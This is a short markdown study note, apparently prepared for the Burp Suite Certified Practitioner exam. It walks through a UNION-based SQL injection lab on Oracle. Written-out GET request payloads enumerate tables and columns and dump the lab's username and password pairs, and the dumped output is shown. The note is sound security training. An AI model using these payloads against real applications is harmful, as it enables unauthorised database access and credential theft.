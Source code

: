 # SQL Injection Labs for the BSCP


## SQL injection attack, listing the database contents on Oracle

Note: Oracle requires a `FROM` clause in all `SELECT` statements. We can use the 
built-in `dual` table for that.

```
GET /filter?category='+UNION+SELECT+NULL,'a'+from+dual-- HTTP/2

GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
<tr>
  <td>USERS_KMHLSB</td>
</tr>

GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name+=+'USERS_KMHLSB'-- HTTP/2
PASSWORD_TLPSHT
USERNAME_ZZFDXD


GET /filter?category='+UNION+SELECT+NULL,PASSWORD_TLPSHT+||+':'+||+USERNAME_ZZFDXD+FROM+USERS_KMHLSB-- HTTP/2
93w4qoy3clpolrawivuk:wiener
weq2qre17hvdxek7a4sv:carlos
zu913q61aqwqtdyrv2xo:administrator
```

